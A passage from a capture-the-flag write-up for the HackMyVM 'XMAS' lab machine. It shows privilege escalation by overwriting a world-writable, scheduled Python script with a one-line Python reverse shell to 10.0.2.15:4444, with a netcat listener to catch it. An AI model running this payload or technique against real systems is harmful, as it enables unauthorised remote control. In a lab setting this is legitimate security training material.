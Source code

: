 ```bash
/snap/core22/864/var/tmp
/tmp
/tmp/linpeas.sh
/tmp/tmux-33
/var/cache/apache2/mod_cache_disk
/var/crash
/var/lib/php/sessions
/var/tmp
/var/www/christmas.hmv/uploads
```

In the writeable file this looks interesting: `/opt/NiceOrNaughty/nice_or_naughty.py`.
Let's find out if this is true.
```bash
www-data@xmas:/tmp$ cd /op
cd /opt
www-data@xmas:/opt$ ls    ls
ls
NiceOrNaughty
www-data@xmas:/opt$ cd NiceOrNaughty
cd NiceOrNaughty
www-data@xmas:/opt/NiceOrNaughty$ ls -la
ls -la
total 12
drwxr-xr-x 2 root root 4096 Nov 20 18:39 .
drwxr-xr-x 3 root root 4096 Nov 20 18:39 ..
-rwxrwxrw- 1 root root 2029 Nov 20 18:39 nice_or_naughty.py
www-data@xmas:/opt/NiceOrNaughty$ 

```
We are able to adjust the file, but first we should check what this script will do if it is executed.
```bash
www-data@xmas:/opt/NiceOrNaughty$ cat nice_or_naughty.py
cat nice_or_naughty.py
```

![image](/assets/img/WriteUp/HackMyVM/XMAS/Pasted image 20231121101041.png){: width="700" height="400" }

In this script we can see credentials for the database. The script inserts data into the table `christmas` with a name and a status nice or naughty. As mentioned on the website, this process is automated and should run every once in a time. If we can adjust this script, we can create a reverse shell. We can use the command below to perform this.
```bash
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > nice_or_naughty.py
```
Before changing the content of the script we should start a netcat listener.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/XMAS]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...

```
Now we can change the python script by entering our code.
```bash
www-data@xmas:/opt/NiceOrNaughty$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > nice_or_naughty.py
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.2.15",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")' > nice_or_naughty.py
www-data@xmas:/opt/NiceOrNaughty$ 

```